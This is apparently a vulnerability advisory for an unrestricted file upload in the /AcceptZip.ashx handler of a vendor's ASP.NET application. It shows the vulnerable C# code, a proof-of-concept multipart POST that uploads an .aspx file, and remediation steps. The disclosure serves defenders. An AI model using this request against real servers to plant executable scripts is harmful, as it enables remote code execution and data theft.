

# Vulnerability Report

## Vendor Homepage
http://www.zzskzy.com/

## Title: 
RCE in `ProcessRequest` Method

### Summary:
An arbitrary file upload To RCE vulnerability exists in the `ProcessRequest` method of the specified application. This vulnerability allows an attacker to upload malicious files to the server, potentially leading to remote code execution or other malicious activities.

### Affected Endpoint:
`/AcceptZip.ashx`

### Vulnerability Type:
Arbitrary File Upload To RCE

### Vulnerable Code:
```c#
public void ProcessRequest(HttpContext context)
{
    try
    {
        var ini = new Ini(context.Server.MapPath("~/set.ini"));
        var verson = ini.ReadValue("set", "ver");
        if (string.IsNullOrWhiteSpace(verson))
        {
            verson = "1.0";
        }
        else
        {
            var ver = decimal.Parse(verson) + 0.1m;
            verson = ver.ToString("##.0");
        }
        var file = context.Request.Files[0];
        var fileName = file.FileName;
        file.SaveAs(context.Server.MapPath("~/Down/"+verson + Path.GetExtension(fileName)));
        ini.Writue("set", "ver", verson);
        context.Response.Write("success");
    }
    catch (Exception ex)
    {
        context.Response.Write(ex.Message);
    }
}
```

### Proof of Concept (PoC):
```
POST /AcceptZip.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
The vulnerability allows an attacker to upload arbitrary files to the server. This can be exploited to upload malicious scripts, such as `.aspx` files, which can then be executed by accessing the uploaded file through the web server. This could lead to remote code execution, data theft, or other malicious activities, compromising the integrity and security of the server and its data.

### Recommendation:
1. **Validate File Types:** Implement strict validation on the file types that can be uploaded. Only allow specific, safe file types (e.g., images, documents) and reject all others.
2. **Sanitize File Names:** Ensure that uploaded file names are sanitized to prevent directory traversal attacks or the inclusion of special characters.
3. **Store Files Securely:** Save uploaded files in a directory that is not accessible via the web server to prevent direct access to uploaded files.
4. **Use a Whitelist Approach:** Implement a whitelist of allowed file extensions and MIME types.
5. **Scan Uploaded Files:** Use antivirus or security software to scan uploaded files for malware.
6. **Review and Patch Code:** Correct the typo in `ini.Writue` method to `ini.Write`.

### Conclusion:
The arbitrary file upload vulnerability in the `ProcessRequest` method poses a significant security risk. By following the provided recommendations, the risk of exploitation can be mitigated, enhancing the security of the application.

### References:
- OWASP File Upload Security: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- Microsoft Secure Coding Guidelines: https://docs.microsoft.com/en-us/security/develop/secure-coding-guidelines
